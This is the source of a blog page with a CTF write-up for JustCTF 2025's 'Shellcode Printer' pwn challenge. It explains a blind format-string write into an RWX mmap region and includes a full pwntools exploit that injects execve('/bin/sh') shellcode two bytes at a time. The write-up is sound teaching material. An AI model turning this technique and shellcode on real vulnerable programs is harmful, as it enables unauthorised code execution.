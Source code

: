 ```yaml
---
layout: default
title: "JustCTF 2025 Pwn Writeups"
description: "Writeups of JustCTF 2025 pwn challenges."
og_description: "Writeups of pwn challenges."
og_type: "ctf writeup"
keywords: "writeups,Sarvesh Aadhithya,CTFs, JustCTF, 2025,zoozoo-sec, zoozoo"

permalink: /writeups/JustCTF2025/
---
```


<!-- Link Bootstrap CSS (add this to your <head> if it's not already included) -->
<link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0-alpha1/dist/css/bootstrap.min.css" rel="stylesheet">
<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/prism/9000.0.1/themes/prism-tomorrow.min.css" integrity="sha512-kSwGoyIkfz4+hMo5jkJngSByil9jxJPKbweYec/UgS+S1EgE45qm4Gea7Ks2oxQ7qiYyyZRn66A9df2lMtjIsw==" crossorigin="anonymous" referrerpolicy="no-referrer" />
<link rel="stylesheet" href="{{ '/writeups/writeup-page.css' | relative_url }}" />

<section id="back" class="back">
<div id="challenge-links">
        <h1 class="text"><code>
JustCTF 2025</code></h1>
        <ul>
            <li><a href="#shellcodeprinter"><code>Shellcode Printer</code></a></li>
            <li><a href="#babyheap"><code>Baby Heap</code></a></li>
            <li><a href="#prospector"><code>Prospector</code></a></li>
        </ul>
    </div>
</section>

<section id="back">
<section id="blueback" class="container">
    <div id="shellcodeprinter" class="challenge-section">
        <div class="section-content">
            <b>Name:</b> <span class="text"> Shellcode Printing</span><br>
            <b>Category:</b> Binary Exploitation<br>
            <p><br>
                Here we are again — classic shellcode injection challenge... or is it?<br>
                This one isn’t the "copy-paste shellcode into a buffer and pray" kind of gig.<br>
                Instead of handing us a nice, friendly buffer and saying, <code>“Please inject shellcode here”</code>, this binary decided to play tricks with a format string vulnerability.
            </p>
        </div>
        <div class="section-content">
            <h1>Format String Shenanigans</h1>
            <img src="{{ '/writeups/JustCTF2025/assets/shellcodeprinter.png' | relative_url }}" alt="snippet" class="code-screenshot" />
            <p>
                You’d expect this to be your average <code>printf</code>-style info leak, right?<br>
                Surprise — it’s <code>fprintf()</code> to <code>/dev/null</code>. Yep, all output gone. Poof.<br>
                Any attempt to <code>%p</code>, <code>%s</code>, <code>%n</code>, or <code>%lx</code> your way to memory leaks? Straight into the void.
            </p>
            <p>
                But hold up… just because we can't read, doesn’t mean we can’t write.<br>
                That’s where the beauty lies — <code>fprintf()</code> + format string = write-what-where primitive.<br>
                (Just don’t expect it to hold your hand.)
            </p>
        </div>
        <div class="section-content">
            <h4>Enter mmap()</h4>
            <p>
                So, where are we even writing this shellcode to?<br>
                This binary uses <code>mmap()</code> to allocate a memory region — with RWX permissions — and stores the pointer on the stack.<br>
                Lucky for us, it’s just sitting at <code>rsp + 8</code>, waiting to be used.
            </p>
        </div>
        <div class="section-content">
            <h4>But There’s a Twist…</h4>
            <p>
                You don't get to write the whole shellcode in one go. Why?<br>
                Because this binary is a little extra.<br>
                After each input, the pointer into the <code>mmap</code>’d region gets bumped by 2 bytes.<br>
                So yeah — your write is 2 bytes per input.
            </p>
            <p>
                Still manageable.<br>
                Bonus: The input loop continues until you send a null byte.<br>
                So you can inject shellcode chunks, 2 bytes at a time, with each input round.
            </p>
        </div>
        <div class="section-content">
            <h4>And Then… It Breaks.</h4>
            <p>
                Just as you're about to finish writing your shellcode, the pointer ends up pointing to the end of the mmap'd region.<br>
                When the execution jumps to that pointer — it’s basically trying to run off the end of your shellcode.<br>
                That’s no good.
            </p>
        </div>
        <div class="section-content">
            <h4>The Jump Trick</h4>
            <p>
                Here’s the trick:<br>
                Write a <code>jmp</code> instruction at the end — one that jumps back to the start of your shellcode.<br>
                Since <code>jmp</code> is only 2 bytes (opcode + offset), and the pointer increments by 2 bytes per input, you can place it precisely.<br>
                For this one, we cheat a little — write 3 bytes to land the jump.<br>
                And just like that, execution jumps to the start — and we get the shell.
            </p>
        </div>
        <div class="section-content">
            <div class="h4-wrapper">
                <h4>Exploit Script</h4>
                <button class="copy-btn">Copy</button>
            </div>
<pre><code class="language-python">from pwn import *
import struct

context.arch = "amd64"
context.log_level = "info"

def split_shell(shellcode):
    chunks = [shellcode[i:i+2] for i in range(0, len(shellcode), 2)]
    words = []
    for chunk in chunks:
        if len(chunk) < 2:
            chunk += b'\x00'
        val = struct.unpack('&lt;H', chunk)[0]
        words.append(val)
    return words

def build_fmt_payload(value, offset=6):
    return f"%{value}c%{offset}$hn"

def generate_shellcode():
    return asm('''
        start:
            xor rax, rax
            push rax
            push rax
            pop rsi
            pop rdx
            mov rbx, 0x68732f6e69622f2f
            shr rbx, 8
            push rbx
            mov rdi, rsp
            mov al, 59
            syscall
            nop
            nop
            jmp start
    ''')

def exploit():
    io = process("./shellcode_printer_patched")

    raw_shellcode = generate_shellcode()
    shellcode_to_send = raw_shellcode[:-3]
    splitted = split_shell(shellcode_to_send)

    for i, word in enumerate(splitted):
        fmt = build_fmt_payload(word)
        log.info(f"Sending chunk {i+1}/{len(splitted)}: {fmt}")
        io.sendline(fmt.encode())

    # Final jump back to start
    io.sendline(b"%14674832c%6$n")

    # Null terminator
    io.sendline(b"\x00")
    io.interactive()

if __name__ == "__main__":
    exploit()</code></pre>
        </div>
    </div>
</section>
</section>



<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/9000.0.1/prism.min.js" integrity="sha512-UOoJElONeUNzQbbKQbjldDf9MwOHqxNz49NNJJ1d90yp+X9edsHyJoAs6O4K19CZGaIdjI5ohK+O2y5lBTW6uQ==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/9000.0.1/components/prism-python.min.js" integrity="sha512-3qtI9+9JXi658yli19POddU1RouYtkTEhTHo6X5ilOvMiDfNvo6GIS6k2Ukrsx8MyaKSXeVrnIWeyH8G5EOyIQ==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/9000.0.1/components/prism-c.min.js" integrity="sha512-EWIJI7uQnA8ClViH2dvhYsNA7PHGSwSg03FAfulqpsFiTPHfhdQIvhkg/l3YpuXOXRF2Dk0NYKIl5zemrl1fmA==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
<script src="{{ '/writeups/copy.js' | relative_url }}"></script>
